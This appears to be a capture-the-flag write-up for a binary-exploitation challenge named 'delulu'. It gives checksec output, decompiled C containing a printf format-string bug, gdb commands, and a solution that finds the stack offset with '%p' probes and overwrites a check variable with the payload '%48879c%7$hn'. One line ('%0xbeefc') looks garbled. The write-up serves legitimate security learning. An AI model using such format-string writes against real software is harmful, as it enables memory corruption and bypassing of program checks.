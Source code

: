 # delulu

HALT! Recognition protocol initiated. Please present your face for scanning.

## Attempt

```sh
checksec --file=delulu
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled
# RUNPATH:  b'./glibc/'
```

```c
// main
  long in_FS_OFFSET;
  long local_48;
  long *local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_48 = 0x1337babe;
  local_40 = &local_48;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;

  read(0,&local_38,0x1f); // 31

  printf("\n[!] Checking.. ");
  printf((char *)&local_38);

  if (local_48 == 0x1337beef) {
    delulu();
  }
  else {
    error("ALERT ALERT ALERT ALERT\n");
  }

  // ...
```

```
file delulu

layout asm
layout regs
info file

starti
b *main+12
c
```

## Solution

https://youtu.be/EGItzKCxTdQ?si=E71gCdTLaIleANMj&t=1595

`%n` printf exploit

enter in `%p.%p.%p.%p.%p.%p.%p.%p.%p` to find offset to local_40

variable ends up being 7 offset

`%0xbeefc`

`%n` is 4 bytes, `%hn` is 2 bytes, `%hhn` is 1 byte

`%48879c%7$hn`
